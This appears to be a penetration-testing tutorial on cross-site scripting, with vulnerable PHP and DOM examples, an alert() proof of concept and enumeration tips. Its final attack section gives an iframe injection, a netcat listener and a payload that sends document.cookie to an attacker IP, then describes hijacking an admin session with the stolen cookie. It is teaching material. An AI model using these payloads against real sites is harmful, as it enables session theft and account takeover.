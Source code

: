 # Cross Site Scripting \(XSS\)

## XSS Information

Cross-site scripting is one of the oldest web application exploits known, dating back to 1996-1998 when inserted code could manipulate frames within a web page, thereby “crossing” the website bounds. The ultimate goal of cross-site scripting is to inject HTML \(also known as HTML injection\) or run code \(JavaScript\) in a user's Web browser. 

### XSS Vulnerable Code

As always the best way to learn a vulnerability is by understanding **WHY** it's vulnerable.

Let's inspect the following PHP code:

```php
<?php 
    echo '<h4>Hola ' . $_GET['name'] . '</h4>'; 
?>
```

The code above displays a greeting to the user whose name is taken from the `$_GET` variable. The `<parameter,value>` pairs are sent using the HTTP GET method and are stored in the `$_GET` variable. When you click links or type the website URL you want to visit into your browser's address bar, you're using the GET method. The query string of the URL accessed will be used to extract the user input \(directly or by clicking on a link\).

```http
http://target/hello.php?name=wixnic
```

When the above is sent to the server, a **name** argument with the value **wixnic** will be added to the `$_GET` variable. `?name=wixnic` is referred to as **querystring**.

The web browser will receive the following HTML code from the server:

```markup
<h4>Hola wixnic</h4>
```

Our input is part of the output web page source code.

Let's check what happens if we submit this payload with the same parameter name to the same page:

```markup
http://target/hello.php?name=</h4><script>alert('XSS');</script>
```

In order for the server to process this, it needs to be URL encoded.

After sending the payload. The server returns to us the following code:

```text
<h4>Hola </h4> <script>alert('XSS');</script>
```

The above is a working XSS attack. It injects some JavaScript code into the web page source code. The JavaScript code is executed in the browser within the website context.

_**Why does this happen?**_ 

Because the user input is given on output without any kind of **sanitization** \(either on input or output\).

The PHP developer forgot to validate the **user input** for malicious patterns.

### Types of XSS

**Reflected XSS** is the most common and well-understood form of XSS vulnerabilities. When untrusted user data is submitted to a web application and instantly echoed back as untrusted content, this is what happens.

Then the browser receives the code from the web server response and renders it.

Reflected XSS Vulnerable PHP Code Example:

```php
<?php $nombre = @$_GET['nombre']; ?>
Saludos <?=$nombre?>
```

**Stored XSS** rather than the malicious input being directly reflected into the response, it is saved within the web application. Once this happens, it is then echoed somewhere else within the web application and it might be available to all visitors.

**DOM XSS** is a form of cross-site scripting that exists only within client-side code.

DOM XSS Vulnerable HTML/JavaScript Code:

```markup
<h1 id='saludos'></h1>
<script>
  var w = "Saludos ";
  var nombre =  document.location.hash.substr( 
                document.location.hash.search(/#w!/i)+3,
                document.location.hash.length 
   );                  
document.getElementById('saludos').innerHTML = w + nombre; 
</script>
```

The client-side script code has access to the browser's DOM, and hence all of the data contained therein. The URL, history, cookies, local storage, and a variety of other items are examples of this information.

### Summary

When user input is used somewhere on the web application output, cross-site scripting attacks are feasible; this allows an attacker to take control of the material shown to application users, thereby assaulting the users.

## Enumerating XSS

### **Find Input Fields**

Input fields may be found in the following examples:

* Search boxes
* Comments
* Post
* Forms
* Parameters \(Including URL\)

**Try inserting special characters to see if they are not filtered:**

```text
< >; ' " { } ;
```

* &lt; &gt;; = denote elements in HTML
* ' " = denote strings on JavaScript
* {} = function declarations of JavaScript
* ; = end of a statement on JavaScript

**If this character are not removed or encoded then it might be vulnerable to XSS:**

* URL Encoding
* HTML Encoding

**Then we might be able to code since we can use this special characters!**

## **XSS Attacks**

### Content Injection 

If we want to place content in the website and the site is vulnerable to XSS then we may be able to use some techniques to "inject" malicious content to the website.

#### iframe Method

The HTML &lt;iframe&gt; embeds another file within the current HTML document

```text
<iframe src=http://192.168.10.10/evil height="0" width="0"></iframe>
```

**The quotes ' " can affect this.**

Visit/Refresh the webpage that has the code and click on the iframe to receive connection back with:

```text
sudo nc -lvnp 80 
```

### Stealing Cookies

**Cookies can be set with several option flags:**

* Secure = Instructs the browser to only send the cookie over encrypted connections, such as HTTPS. 
* HttpOnly = Instructs the browser to deny JavaScript access to the cookie. If it set to **FALSE** we can use an XSS payload to steal the cookie.

#### Stealing Cookies Methodology

Setup a nc listener with the following command:

```text
nc -lvnp 80
```

Create the payload to capture the victim's cookie**:**

```text
<script>new Image().src="http://192.168.10.10/filename.jpg?output="+document.cookie;</script>
```

Add the cookie from the netcat into the Cooke-Editor Plugin:

{% embed url="https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/?src=search" %}

`Cookie Editor Plugin > Add > Name: PHPSESSID Value: <cookie_value> -> Save`

After saving the cookie visit the administrator or the unauthorized page:

```text
/admin-page.php
```

 

